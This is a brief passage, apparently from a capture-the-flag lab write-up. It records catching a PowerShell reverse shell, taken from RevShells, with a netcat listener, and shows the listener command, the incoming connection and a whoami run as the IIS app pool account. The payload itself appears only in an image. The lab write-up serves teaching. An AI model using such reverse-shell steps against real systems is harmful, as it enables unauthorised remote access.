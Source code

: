 <img src="/assets/img/flight/Untitled 10.png" alt="Untitled 10.png" style="width:800px;">

I chose this PowerShell one-liner from [RevShells](https://www.revshells.com/).

<img src="/assets/img/flight/Untitled 11.png" alt="Untitled 11.png" style="width:800px;">

Received a reverse connection on our Netcat listener.

```
nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.10.14.112] from (UNKNOWN) [10.129.228.120] 54483

PS C:\windows\system32\inetsrv> whoami
iis apppool\defaultapppool
```
